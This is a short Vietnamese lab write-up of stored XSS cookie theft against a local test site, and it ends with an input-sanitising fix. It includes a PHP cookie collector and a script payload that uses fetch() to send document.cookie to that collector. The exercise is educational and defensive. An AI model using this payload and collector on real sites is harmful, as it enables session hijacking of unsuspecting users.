





## Người thực hiện: Trần Ngọc Nam
## Ngày thực hiện: 19/5/2022

- Đây là trang web ta sẽ thử tấn công.
  

- Ta sẽ tạo 1 file <code>captain.php</code> và 1 file <code>cookie.txt</code> để nhận cookie trả về.
  ```php
    <?php
    session_start();
    $cookie = $_COOKIE['PHPSESSID'];
    file_put_contents("cookie.txt", $cookie, FILE_APPEND);
  ```

- Tiếp theo, kẻ tấn công chỉ cần thực hiện comment kết hợp với script
  ```php
  <script>fetch('http://localhost/HPT/XSS-CSRF-LFI-RFI/XSS/Cookie/captain.php?cookie='+document.cookie)</script>
  ```

  

- Sau khi thực hiện comment thành công, ta chỉ cần check lại file <code>cookie.txt</code>
  
  

- Tới đây, kẻ tấn công đã thành công chiếm được cookie.
- Để khắc phục điều này, ta có thể các hàm trim, stripslashes, htmlspecialchars để loại bỏ các kí tự đặc biệt.
  ```php
  function test_input($data)
  {
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    return $data;
  }
  ```

- Đây là kết quả sau khi check dữ liệu đầu vào.
  
  

  

- Như vậy, ta đã ngăn chặn thành công.